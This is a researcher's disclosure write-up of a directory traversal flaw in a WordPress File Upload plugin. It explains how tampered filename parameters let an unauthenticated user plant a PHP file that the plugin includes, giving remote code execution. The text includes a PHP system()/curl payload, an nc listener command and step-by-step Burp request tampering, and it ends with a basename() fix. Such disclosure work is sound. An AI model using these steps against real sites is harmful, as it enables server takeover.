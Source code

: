 ## Directory traversal to RCE on WordPress File Upload plugin

### Author: Riccardo Krauter (p4w)
### Twitter: @p4w16
### mail: riccardo.krauter@gmail.com

### Summary:
The parameters `filenames`, `uploadedfile_X_name` used during the POST request on file-upload functionality, are vulnerable to directory traversal.

### Description:
During the file upload functionality the parameters `filenames`, `uploadedfile_X_name` are sended from the client to the application.
The parameters mentioned are hex-encoded and contains the filename which is given from the file a user has picked from their hard dirve. A malicius user can modify these parameters with a <b>directory traversal</b> payload to force the application writing the file outside the choosen upload directory.

### Reproduce the issue:
I will use burp-proxy on my local environment to reproduce the issue. I'm going to exploit the vulnarability and gain Remote Code Execution by uploading a mailicius `txt` file in the `lib` directory.
The plugin will fecth every files from the `lib` directory and include it as we can see in this portion of code.
![alt create-page](./screen/incliude-lib-dir-file.png)

This is the contents of my lib directrory before the exploitation:
![alt create-page](./screen/lib_dir_before_exploit.PNG)

As admin user, create a page with the plugin in it (after that the admin can logut the exploit shuold work without having any privilege on WP):
![alt create-page](./screen/create-page.png)

Browse the previously created page as non logged user and pick a file with the php code to execute from the disk using the plugin:
![alt upload-file](./screen/upload-file.PNG)

I used a simple payload that will execute a curl on my machine to myself:
```
<?php system("curl http://localhost:5555/RCE-for-the-win"); ?>
```
Setup a listener on your local machine such as:
```
$ nc -lnvp 5555
```

Prepare the payload, it will go down one directory straring from the `upload`(default one) directory and traversal until the `lib` directory:
![alt RCE-payload](./screen/payload.png)

Click on `send file` from the web page. Using the intercept on burp-proxy, modify in each requests the `filenames` and the `uploadedfile_X_name` params with the payload shown before (you shuold prepend it to the name already prensent). From now there will be 3 request that you have to modify with the same hex-payload.
Req. 1:
![alt RCE-payload](./screen/mod-1.png)

Req. 2:
![alt RCE-payload](./screen/mod-2.png)

Req. 3:
![alt RCE-payload](./screen/mod-3.png)

Done!!!!
Check out the listener, you should see the curl request coming:
![alt RCE-conn](./screen/rce-for-the-win.PNG)

Checking the `lib` directory we should have our malicius txt file in it:
![alt lib-dir-after](./screen/file-uploaded-outside-upload-dir.PNG)

## Fix:
In general let the user control filename is dangerous. In this case maybe you want to use some function such as `basename()`, that help you to get only the filename and not the path.
